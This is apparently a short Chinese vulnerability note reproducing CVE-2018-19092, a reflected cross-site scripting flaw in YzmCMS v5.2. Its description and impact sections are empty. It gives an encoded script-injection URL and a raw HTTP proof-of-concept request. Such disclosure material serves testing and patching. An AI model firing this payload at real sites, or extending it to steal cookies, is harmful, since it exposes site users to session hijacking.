 # （CVE-2018-19092）YzmCMS v5.2 xss 漏洞

> 原文：[http://book.iwonder.run/0day/YzmCMS/CVE-2018-19092.html](http://book.iwonder.run/0day/YzmCMS/CVE-2018-19092.html)

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

[http://www.0-sec.org/search/index/archives/pubtime/1526387722/page/1.html](http://www.0-sec.org/search/index/archives/pubtime/1526387722/page/1.html)

XSS payload: [http://www.0-sec.org/search/index/archives/pubtime/1526387722/page/1.html?tqh3l%22%3e%3cscript%3ealert(1)%3c%2fscript%3er6qt2=1](http://192.168.1.40/search/index/archives/pubtime/1526387722/page/1.html?tqh3l">alert(1)<%2fscript>r6qt2=1)

POC:

```
GET /search/index/archives/pubtime/1526387722/page/1.html?tqh3l%22%3e%3cscript%3ealert(1)%3c%2fscript%3er6qt2=1 HTTP/1.1
Host: www.0-sec.org
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Referer: http://192.168.1.40/search/index/archives/pubtime/1526387722.html
Cookie: PHPSESSID=u0bh5qnr84qsu9aa0oj8vpkuk2 
```

